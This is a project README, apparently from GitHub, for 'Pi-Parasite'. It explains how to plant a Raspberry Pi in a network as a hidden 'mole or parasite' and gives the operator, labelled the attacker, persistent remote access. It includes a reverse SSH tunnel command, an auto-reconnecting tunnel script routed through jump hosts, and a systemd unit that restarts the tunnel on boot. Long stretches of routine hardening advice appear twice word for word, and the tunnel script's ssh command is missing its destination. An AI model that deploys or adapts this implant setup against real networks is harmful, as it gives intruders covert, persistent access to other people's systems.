

⚠️**Warning: Proof of Concept for Educational Purposes**⚠️

This project is intended solely for educational purposes and should not be used in production environments or for any commercial applications. It represents a proof of concept, and as such, it may contain incomplete, experimental, or potentially unstable code.
 

# Pi-Parasite
### Intro:
The purpose of these is the use of a Raspberry Pi or similar device as a mole or parasite in a network and have persistent aces to it.

# Installation:
## **On the Raspberry Pi (Pi):**
### 0. Secure the Pi:
#### 0.Recommendations
For the SSH tunnel jump, the user should not have any permissions except read even in its home directory.
For all of the security and other settings there should be another user with sudo privileges, it should need preferably a SSH key that needs a yubikey for authentication, these is for in the case were the SSH jump key is compromised there is no possibility of them been able to access the logs and other sensitive data.
#### 1. Install [ClamAV](https://www.clamav.net/) and clamscan.
1. Install clamAV:
Install ClamAV and the ClamAV-daemon:
```bash
sudo apt install clamav clamav-daemon
```
During the installation process, you may be asked to configure the ClamAV daemon. You can choose the default settings by pressing Enter.

2. Update ClamAV Signatures**
```bash
sudo freshclam
```
ClamAV uses signature databases to detect known viruses and malware. To ensure ClamAV is effective, you should regularly update these signatures. Run the following command:

3. Run Clamscan from the root directory "/"
```bash
sudo clamscan -r / 
```

4. automate these with cron:
```bash
sudo crontab -e
```
and add the following line:
```bash
0 3 * * * /usr/bin/clamscan -r / >> /var/log/clamav/scan.log
```
these will run every day at 3 am. Save and exit the editor. This command will run a daily scan and log the results to `/var/log/clamav/scan.log`, these can be saved.

5. Configure Notifications (Optional):
If you want to receive email notifications when ClamAV detects malware, you can set up email alerts. You'll need to have a functioning email server and configure ClamAV to use it.
#### 2. Fail2ban
**Note:** Before you start, make sure you have SSH access to your server and are logged in as a user with sudo privileges. If you don't have SSH access yet, you may need to initially access the server via console or physical access.

1. **Update and Upgrade Packages:**
   First, ensure that your server is up-to-date by running the following commands:
   ```shell
   sudo apt update
   sudo apt upgrade
   ```

3. **Secure SSH Configuration:**
   Edit the SSH server configuration to improve security:
   ```shell
   sudo nano /etc/ssh/sshd_config
   ```

   - Disable root login by setting `PermitRootLogin` to `no`.
   - Limit SSH authentication methods to only use SSH keys (disable password authentication):
     ```
     PasswordAuthentication no
     ```

   - Restrict SSH access to your new user:
     ```
     AllowUsers yourusername
     ```

   Save the file and exit the text editor. Then, restart the SSH service:
   ```shell
   sudo systemctl restart ssh
   ```

4. **Firewall Configuration:**
   Debian 11 uses `ufw` as the default firewall management tool. If it's not installed, install it:
   ```shell
   sudo apt install ufw
   ```

   Allow SSH connections, and deny all incoming traffic by default:
   ```shell
   sudo ufw allow OpenSSH
   sudo ufw default deny incoming
   sudo ufw enable
   ```

5. **SSH Key Authentication:**
   Generate an SSH key pair on your local machine if you haven't already. Then, copy the public key to your server for pass-wordless authentication:
   ```shell
   ssh-keygen -t rsa -b 4096
   ssh-copy-id yourusername@your_server_ip
   ```

   Test SSH key authentication to ensure it works before disabling password authentication.

6. **Disable Password Authentication (Optional):**
   After confirming that SSH key authentication works, you can disable password authentication in the SSH configuration file (see step 3).

7. **Keep Software Updated:**
   Regularly update your system and installed software to patch vulnerabilities:
   ```shell
   sudo apt update
   sudo apt upgrade
   ```

8. **Monitor Logs:**
   Regularly check system logs (e.g., `/var/log/auth.log`) for any suspicious activity or failed login attempts.

9. **Optional: Fail2ban Installation (Recommended):**
   Install and configure Fail2ban to automatically block IP addresses that exhibit malicious behavior:
   ```shell
   sudo apt install fail2ban
   ```
   Follow the [Fail2ban documentation](https://www.fail2ban.org/wiki/index.php/Main_Page) to configure it based on your needs.


### 1. **Install the SSH Client:**
   Ensure that your Raspberry Pi has the SSH client installed. If it's not installed, open a terminal and run the following commands:
   ```shell
   sudo apt update
   sudo apt install openssh-client
   ```
   This will install the necessary SSH client software.
### 2. Manual creation of Reverse SSH Tunnel:
2. **Create the Reverse SSH Tunnel:**
   To create the reverse SSH tunnel from the Raspberry Pi to PC1, open a terminal on the Raspberry Pi and use the following command:
   ```shell
   ssh -N -R 2222:localhost:22 user@pc1-ip-address
   ```
   - Replace `user` with your PC1 username.
   - Replace `pc1-ip-address` with the actual IP address or hostname of your PC1.
   This command initiates a connection from the Raspberry Pi to PC1 and establishes a reverse tunnel that forwards port 2222 on PC1 to port 22 (SSH) on the Raspberry Pi.
   You may be prompted to enter your PC1's SSH password.
### 3. Automatic creation of Reverse SSH Tunnel:
To create a script that automatically checks for internet access, establishes an SSH connection, and monitors and re-establishes the SSH connection if it's terminated, you can use a Bash script. Here's a basic example:

1. Create a new Bash script on your Raspberry Pi. You can do this with a text editor like Nano or Vim. For example:

```shell
nano auto_ssh_tunnel.sh
```

2. Add the following content to the `auto_ssh_tunnel.sh` script:

```shell
#!/bin/bash
# Define ANSI color escape codes
RED='\033[0;31m'
GREEN='\033[0;32m'
NC='\033[0m' # No Color

# Define variables for the jump hosts
SSH_USER="user"  # Replace with your username
SSH_KEY="/path/to/your/ssh/key"  # Replace with the path to your SSH private key file

# Define the jump hosts manually in the desired order
JUMP_HOST_1="hostname1"
JUMP_HOST_2="hostname2"
JUMP_HOST_3="hostname3"
# Add more jump hosts as needed

# Define the final destination host and port
DEST_HOST="final-destination-hostname"
DEST_PORT="22"  # Replace with the SSH port on the final destination host

# Function to check for internet connectivity
check_internet() {
  if ping -c 1 google.com > /dev/null 2>&1; then
    return 0
  else
    return 1
  fi
}

# Function to establish the SSH tunnel through manually defined jump hosts
establish_tunnel() {
  # Use the -J option to specify the manually defined jump hosts
  if ssh -i "$SSH_KEY" -N -L 2222:localhost:2222 -J "$JUMP_HOST_1,$JUMP_HOST_2,$JUMP_HOST_3"; then
    return 0
  else
    return 1
  fi
}

# Function to print colored messages
print_message() {
  local color="$1"
  local message="$2"
  echo -e "${color}${message}${NC}"
}

# Main loop
while true; do
  if check_internet; then
    print_message "${GREEN}" "Internet is up."
    if ! pgrep -f "ssh.*-L 2222:localhost:2222" > /dev/null; then
      print_message "${RED}" "SSH tunnel not running. Establishing tunnel..."
      if establish_tunnel; then
        print_message "${GREEN}" "SSH tunnel established successfully."
      else
        print_message "${RED}" "Failed to establish SSH tunnel."
      fi
      sleep 5
    else
      print_message "${GREEN}" "SSH tunnel is already running."
    fi
  else
    print_message "${RED}" "No internet access. Waiting..."
  fi
  sleep 60  # Check every 60 seconds
done
```

3. Make the script executable:
```shell
chmod +x auto_ssh_tunnel.sh
```

4. Create the ssh `config` file
```txt
# JUMP_HOST_1
Host hostname1
    HostName i[]
    User user
    IdentityFile ~/.ssh/id_rsa
    Port 22
    
# JUMP_HOST_2
Host hostname2
    HostName i[]
    User user
    IdentityFile ~/.ssh/id_rsa
    Port 22
    
# JUMP_HOST_3
Host hostname3
    HostName i[]
    User user
    IdentityFile ~/.ssh/id_rsa
    Port 22
```

5. Run the script:
```shell
./auto_ssh_tunnel.sh
```
This script will continuously check for internet access. If it has internet access, it will ensure that the SSH tunnel is running. If the tunnel is not running, it will establish it. If the SSH tunnel is manually killed from PC1, the script will try to re-establish it.

### Make it execute on power on:
1. **Create a systemd service unit file**:
   Open a terminal and create a systemd service unit file for your script. 
   ```bash
   sudo nano /etc/systemd/system/auto_ssh_tunnel.service
   ```

   Add the following content to the unit file, adjusting the needed variables:
 ```ini
   [Unit]
   Description=auto_ssh_tunnel.sh
   After=network.target

   [Service]
   User=your-username
   ExecStart=/path/to/your/auto_ssh_tunnel.sh
   Restart=always
   RestartSec=10
   WorkingDirectory=/path/to/your/script-directory

   [Install]
   WantedBy=multi-user.target
```

   - `Description`: Provide a description for your service.
   - `User`: Replace with your username.
   - `ExecStart`: Specify the full path to your script.
   - `Restart`: Ensures that the script restarts if it exits unexpectedly.
   - `RestartSec`: Time to wait before restarting the script (in seconds).
   - `WorkingDirectory`: Set the working directory for your script (where it's located).

2. **Enable and start the service**:
   Run the following commands to enable and start your service:
   ```bash
   sudo systemctl enable auto_ssh_tunnel.service
   sudo systemctl start auto_ssh_tunnel.service
   ```
   This will configure the service to start automatically on boot.

3. **Check the status**:
   You can check the status of your service to ensure it's running:
   ```bash
   sudo systemctl status auto_ssh_tunnel.service
   ```
   If everything is set up correctly, your script will run on startup.

## **On Jumps (SSH Servers):**
You can use Raspberry Pi to for these, butt is not recommended, if you use a Pi we recommend using Debian and hardening it. the installation should be on a USB since the multiple reads of all of the system boot drive will make the SSD probably fail faster a 32Gb  should be sufficient, but we recommend using a 128Gb to allow space for more tools and utilities that you might want.
The flowing steps will work on any device with Debian, we will be using the Venus Series UM560/UM580 from Minisforum
##### 1. **Ensure SSH Server is Running:**
   Make sure you have an SSH server running on each jump. If it's not already installed, you can install it by running these commands:
   ```shell
   sudo apt update
   sudo apt install openssh-server
   ```
   This installs the SSH server software.

##### 2. **Configure SSH server:**
Access the sshd configuration:
**sshd_config**: defines SSH rules for your SSH server. It is used for example to define the reachable SSH port or to deny specific users from communicating with your server.
```bash
nano /etc/ssh/sshd_config
```
we recommend these configuration:

```
# /etc/ssh/sshd_config

# Use a non-standard SSH port (replace 2222 with your desired port)
Port 2222

# Disable password-based authentication
PasswordAuthentication no

# Allow only specific users or groups to SSH (replace 'username' with the desired user or group)
# AllowUsers username
# AllowGroups groupname

# Use key-based authentication
PubkeyAuthentication yes

# Allow only strong encryption and key exchange algorithms
Ciphers aes256-ctr,aes192-ctr,aes128-ctr
KexAlgorithms ecdh-sha2-nistp521,ecdh-sha2-nistp384,ecdh-sha2-nistp256,diffie-hellman-group-exchange-sha256

# Disable root login
PermitRootLogin no

# Limit the number of concurrent SSH sessions per user (adjust the number as needed)
# MaxSessions 2

# Enable two-factor authentication if desired

# Logging
# Log level can be adjusted based on your needs
LogLevel VERBOSE

# Specify the log file location
# SyslogFacility AUTH
# AuthorizedKeysFile	.ssh/authorized_keys

# Automatically ban IP addresses with repeated failed login attempts
# (You can use Fail2ban, DenyHosts, or other similar tools for this purpose)

# Allow only specific IP addresses or networks to access SSH (configure your firewall accordingly)
# AllowTcpForwarding no
# GatewayPorts no
# X11Forwarding no

# Disable empty passwords
PermitEmptyPasswords no

# Disable SSH banner to hide server information
# Banner none

# TCPKeepAlive should be enabled for stability
TCPKeepAlive yes

# Disable password-based authentication for SSH tunneling if not needed
PasswordAuthentication no

# Disable session forwarding if not needed
# AllowAgentForwarding no
# AllowTcpForwarding no
# AllowStreamLocalForwarding no
# PermitRootLogin no

# Disable X11 forwarding if not needed
# X11Forwarding no

# Allow only specific SSH key types (adjust as needed)
# HostKey /etc/ssh/ssh_host_rsa_key
# HostKey /etc/ssh/ssh_host_ecdsa_key
# HostKey /etc/ssh/ssh_host_ed25519_key

# Specify the banner message (optional)
# Banner /etc/ssh/banner

# Specify the location of your authorized keys file (if not the default)
# AuthorizedKeysFile	.ssh/authorized_keys

# Specify the location of your host keys (if not the default)
# HostKey /etc/ssh/ssh_host_rsa_key
# HostKey /etc/ssh/ssh_host_ecdsa_key
# HostKey /etc/ssh/ssh_host_ed25519_key

# Additional security settings can be added as needed

# Allow specific user(s) to run only specific command(s) with sudo (if applicable)
# Match User username Command "/usr/bin/allowed_command"

# Use PAM for additional authentication control (if needed)
# UsePAM yes

# Allow/disallow SSH access based on the user's primary group (if needed)
# Match Group groupname AllowUsers username

# Allow only specific users to use SSH (if needed)
# Match User username AllowTcpForwarding yes

# Disable password-based authentication for specific users (if needed)
# Match User username PasswordAuthentication no

# End of configuration file
```
**Key-Based Authentication**:.
- Disable password-based authentication: In your SSH server configuration file (usually `/etc/ssh/sshd_config`), set `PasswordAuthentication no`. This prevents password-based logins and makes it more difficult for attackers to guess or crack passwords.
- Use SSH keys for authentication: Generate SSH key pairs (public and private keys) for each user and store them securely. Public keys should be placed in the `~/.ssh/authorized_keys` file on the server.

**Limit User Access**:
- Only allow necessary users to SSH into the system.
- Use the `AllowUsers` or `AllowGroups` directives in your SSH server configuration to restrict SSH access to specific users or groups.

**Change SSH Port**:
- Consider changing the default SSH port (22) to a non-standard port. This won't provide strong security on its own, but it can reduce automated scans and brute-force attacks.
- Update the `Port` directive in your SSH configuration file.

**Use Strong Encryption and Algorithms**:
- Ensure that your SSH server uses strong encryption algorithms and key exchange methods. In your SSH configuration file, set `Ciphers`, `KexAlgorithms`, and `MACs` to use strong, up-to-date options.

**Disable Root Login**:
- Disable direct root logins by setting `PermitRootLogin no` in your SSH server configuration. Instead, use a regular user account and then escalate privileges using `sudo` when necessary.

**Limit Concurrent Connections**:
- Use the `MaxSessions` directive to limit the number of concurrent SSH sessions a user can have. This can help prevent abuse.

**Log and Monitor SSH Activity**:
- Enable detailed logging of SSH sessions to monitor for suspicious activities.
- Use tools like Fail2ban or DenyHosts to automatically block IP addresses of repeated failed login attempts.

**Firewall Rules**:
- Configure your system's firewall to only allow SSH traffic from trusted IP addresses or networks.

**ssh_config**: defines SSH rules for clients. It means that it defines rules that are applied every time you use SSH to connect to a remote host or to transfer files between hosts
```bash
nano /etc/ssh/ssh_config
```
- Restart sshd to apply the new configuration
```bash
sudo systemctl restart sshd 
sudo systemctl status sshd
```

3. **Configure the Firewall:**
   Ensure that the firewall on PC1 allows incoming SSH connections on port 2222 (or the port you specified in the command). If you are using a Linux-based firewall like UFW, you can add a rule like this:
   ```shell
   sudo ufw allow 2222/tcp
   sudo ufw reload
   ```
   This allows incoming SSH connections on port 2222.

##### 3. Secure and review Debian for posible intrusions:
### 0.Recommendations
For the SSH tunnel jump, the user should not have any permissions except read even in its home directory.
For all of the security and other settings there should be another user with sudo privileges, it should need preferably a SSH key that needs a yubikey for authentication, these is for in the case were the SSH jump key is compromised there is no possibility of them been able to access the logs and other sensitive data.
### 1. Install [ClamAV](https://www.clamav.net/) and clamscan.
1. Install clamAV:
Install ClamAV and the ClamAV-daemon:
```bash
sudo apt install clamav clamav-daemon
```
During the installation process, you may be asked to configure the ClamAV daemon. You can choose the default settings by pressing Enter.

2. Update ClamAV Signatures**
```bash
sudo freshclam
```
ClamAV uses signature databases to detect known viruses and malware. To ensure ClamAV is effective, you should regularly update these signatures. Run the following command:

3. Run Clamscan from the root directory "/"
```bash
sudo clamscan -r / 
```

4. automate these with cron:
```bash
sudo crontab -e
```
and add the following line:
```bash
0 3 * * * /usr/bin/clamscan -r / >> /var/log/clamav/scan.log
```
these will run every day at 3 am. Save and exit the editor. This command will run a daily scan and log the results to `/var/log/clamav/scan.log`, these can be saved.

5. Configure Notifications (Optional):
If you want to receive email notifications when ClamAV detects malware, you can set up email alerts. You'll need to have a functioning email server and configure ClamAV to use it.
### 2. Fail2ban
**Note:** Before you start, make sure you have SSH access to your server and are logged in as a user with sudo privileges. If you don't have SSH access yet, you may need to initially access the server via console or physical access.

1. **Update and Upgrade Packages:**
   First, ensure that your server is up-to-date by running the following commands:
   ```shell
   sudo apt update
   sudo apt upgrade
   ```

3. **Secure SSH Configuration:**
   Edit the SSH server configuration to improve security:
   ```shell
   sudo nano /etc/ssh/sshd_config
   ```

   - Disable root login by setting `PermitRootLogin` to `no`.
   - Limit SSH authentication methods to only use SSH keys (disable password authentication):
     ```
     PasswordAuthentication no
     ```

   - Restrict SSH access to your new user:
     ```
     AllowUsers yourusername
     ```

   Save the file and exit the text editor. Then, restart the SSH service:
   ```shell
   sudo systemctl restart ssh
   ```

4. **Firewall Configuration:**
   Debian 11 uses `ufw` as the default firewall management tool. If it's not installed, install it:
   ```shell
   sudo apt install ufw
   ```

   Allow SSH connections, and deny all incoming traffic by default:
   ```shell
   sudo ufw allow OpenSSH
   sudo ufw default deny incoming
   sudo ufw enable
   ```

5. **SSH Key Authentication:**
   Generate an SSH key pair on your local machine if you haven't already. Then, copy the public key to your server for pass-wordless authentication:
   ```shell
   ssh-keygen -t rsa -b 4096
   ssh-copy-id yourusername@your_server_ip
   ```

   Test SSH key authentication to ensure it works before disabling password authentication.

6. **Disable Password Authentication (Optional):**
   After confirming that SSH key authentication works, you can disable password authentication in the SSH configuration file (see step 3).

7. **Keep Software Updated:**
   Regularly update your system and installed software to patch vulnerabilities:
   ```shell
   sudo apt update
   sudo apt upgrade
   ```

8. **Monitor Logs:**
   Regularly check system logs (e.g., `/var/log/auth.log`) for any suspicious activity or failed login attempts.

9. **Optional: Fail2ban Installation (Recommended):**
   Install and configure Fail2ban to automatically block IP addresses that exhibit malicious behavior:
   ```shell
   sudo apt install fail2ban
   ```
   Follow the [Fail2ban documentation](https://www.fail2ban.org/wiki/index.php/Main_Page) to configure it based on your needs.


## **On PC1 (attacker):**
**Accessing the Raspberry Pi from PC1:**
1. **Connect to the last ssh Jump:**
```bash
ssh -p 2222 jump@jump_ip
```
2. **Connect to the Raspberry Pi:**
   Now that the reverse SSH tunnel is established, you can access the Raspberry Pi from PC1. Open a terminal on PC1 and use the following command to connect to the Raspberry Pi:
   ```shell
   ssh -p 2222 pi@localhost
   ```
   - Replace `pi` with your Raspberry Pi username if it's different.
   - This command connects to the Raspberry Pi via the reverse tunnel on port 2222.

You should now have a secure SSH connection to your Raspberry Pi from your PC1 without needing to open any ports on the Raspberry Pi's network. Remember to keep both devices secure, and consider setting up SSH key-based authentication for improved security.
